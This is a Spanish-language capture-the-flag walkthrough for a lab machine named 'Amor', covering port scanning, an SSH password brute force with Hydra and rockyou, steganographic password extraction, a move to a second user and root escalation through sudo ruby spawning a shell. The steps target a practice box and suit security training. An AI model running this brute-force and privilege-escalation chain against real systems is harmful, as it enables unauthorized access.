 Maquina: Amor 

Autor: Romabri 

Dificultad: Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
Vemos que esta abierto el puerto 22 SSH y el puerto 80 HTTP

accedemos a la pagina web
https://172.17.0.2

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

Gobuster no ha encontrado nada pero en una de las entradas vemos algo interesante:
Tenemos dos usaurios

Hacemos un ataque de fuerza bruta con Hydra
hydra -l carlota -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

Ahora accedemos vía SSH
ssh carlota@172.17.0.2

vemos que hay este directorio /home/carlota/Desktop/fotos/vacaciones y en dicho directorio hay una imagen, la descargamos.

Este comando nos permite descargar archivos desde ssh

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/romabri/Desktop/maquina/

si abrimos la imagen nos encontramos esto:

Este comando nos extrae información oculta en la imagen
steghiede extract -sf imagen.jpg 

Nos pide que pongamos contraseña si no ponemos nada y damos a enter nos ha generado un archivo secret.txt. Dentro del archivo secret.txt encontramos algo cifrado en base 64

Lo desciframos de la siguiente forma: 

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode

Cuando hacemos esto nos aparece lo siguiente:

Podría ser una contraseña pero para el usuario Juan no funciona vamos a seguir mirando dentro del usuario Carlota

Si escribimos el comando env vemos algo extraño

El texto cita a un tal oscar vamos a probar la contraseña que hemos encontrado dentro de la imagen con este usaurio

ssh oscar@172.17.0.2

Vamos al escritorio de oscar y vemos un achivo con un texto

Si hacemos un sudo -l nos aparece lo siguiente

Ejecutamos el siguiente comando 

sudo /usr/bin/ruby -e 'exec "/bin/sh"'

Whoami
